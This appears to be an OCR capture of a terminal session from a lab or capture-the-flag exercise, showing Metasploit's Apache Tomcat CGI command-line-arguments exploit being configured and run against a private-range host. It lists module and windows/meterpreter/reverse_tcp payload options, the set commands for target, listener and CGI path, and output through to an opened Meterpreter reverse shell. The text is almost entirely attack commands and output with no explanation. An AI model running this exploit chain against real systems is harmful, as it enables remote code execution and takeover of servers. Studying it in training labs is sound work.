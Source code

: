 ```bash
   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The URI path to CGI script
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.251.126    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Apache Tomcat 9.0 or prior for Windows


msf5 exploit(windows/http/tomcat_cgi_cmdlineargs) > set RHOSTS 10.10.174.240
RHOSTS => 10.10.174.240
msf5 exploit(windows/http/tomcat_cgi_cmdlineargs) > set LHOSTS 10.10.251.126
LHOSTS => 10.10.251.126
msf5 exploit(windows/http/tomcat_cgi_cmdlineargs) > set targeturi /cgi-bin/elfwhacker.bat
targeturi => /cgi-bin/elfwhacker.bat
msf5 exploit(windows/http/tomcat_cgi_cmdlineargs) > exploit

[*] Started reverse TCP handler on 10.10.251.126:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
[*] Command Stager progress -   6.95% done (6999/100668 bytes)
[*] Command Stager progress -  13.91% done (13998/100668 bytes)
[*] Command Stager progress -  20.86% done (20997/100668 bytes)
[*] Command Stager progress -  27.81% done (27996/100668 bytes)
[*] Command Stager progress -  34.76% done (34995/100668 bytes)
[*] Command Stager progress -  41.72% done (41994/100668 bytes)
[*] Command Stager progress -  48.67% done (48993/100668 bytes)
[*] Command Stager progress -  55.62% done (55992/100668 bytes)
[*] Command Stager progress -  62.57% done (62991/100668 bytes)
[*] Command Stager progress -  69.53% done (69990/100668 bytes)
[*] Command Stager progress -  76.48% done (76989/100668 bytes)
[*] Command Stager progress -  83.43% done (83988/100668 bytes)
[*] Command Stager progress -  90.38% done (90987/100668 bytes)
[*] Command Stager progress -  97.34% done (97986/100668 bytes)
[*] Command Stager progress - 100.02% done (100692/100668 bytes)
[*] Sending stage (176195 bytes) to 10.10.174.240
[*] Meterpreter session 1 opened (10.10.251.126:4444 -> 10.10.174.240:49998) at 2021-11-09 07:06:16 +0000

meterpreter > 
[!] Make sure to manually cleanup the exe generated by the exploit

```